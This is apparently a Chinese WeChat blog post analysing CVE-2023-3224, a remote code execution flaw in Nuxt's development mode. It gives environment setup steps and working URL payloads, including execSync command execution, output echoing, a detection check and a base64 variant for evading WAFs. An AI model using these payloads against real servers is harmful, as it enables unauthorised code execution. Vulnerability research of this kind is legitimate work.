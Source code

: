 #  Nuxt开发模式下远程代码执行漏洞(CVE-2023-3224)

[ Medi0cr1ty ](javascript:void\(0\);)

**Medi0cr1ty** ![]()

微信号 Medi0cr1ty

功能介绍 宁静在遥远处波动

____

___发表于_

收录于合集

#漏洞 1 个

#nodejs 1 个

漏洞很简单，仅进行部分补充及记录

 **01**

漏洞概述

Nuxt在当服务端以开发模式启动时存在代码注入漏洞，远程未授权攻击者可利用此漏洞注入恶意代码并获取目标服务器权限。

前置条件：服务端以开发模式启动。

影响版本：Nuxt 3.4.0；3.4.1；3.4.2

 **02**

漏洞分析

环境搭建（三步）：

1、初始化

  * 

    
    
    npm init -y

2、依赖安装

  * 

    
    
    npm install nuxt@3.4.0

3、启动

  * 

    
    
    npx nuxi dev

根据漏洞补丁可知，漏洞触发点在 nuxt-root.vue 对 /__nuxt_component_test__/ 开头的 URL进行处理，交由 test-
component-wrapper.mjs ，在这里根据 query 中 path 参数值进行动态引入，导致可注入任意代码。

POC：  

  * 

    
    
    /__nuxt_component_test__/?path=data%3atext/javascript,console.log("test!");

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175621.png)

RCE：

  * 

    
    
    /__nuxt_component_test__/?path=data%3atext/javascript,(await%20import('child_process')).execSync('calc')

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175623.png)

RCE + 回显：

  * 

    
    
    /__nuxt_component_test__/?path=data%3atext/javascript,throw%20new%20Error((await%20import('child_process')).execSync('whoami'));

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175624.png)

 **03**

漏洞检测

  

  * 

    
    
    /__nuxt_component_test__/?path=data%3atext/javascript,throw%20new%20Error(Buffer.from(%22medi0crity%22).toString(%27base64%27));

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175625.png)

  

另：均可进行编码绕 WAF 等，如：  

  * 

    
    
    /__nuxt_component_test__/?path=data%3atext/javascript%3bcharset%3dutf-8%3bbase64,KGF3YWl0IGltcG9ydCgnY2hpbGRfcHJvY2VzcycpKS5leGVjU3luYygnY2FsYycp

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


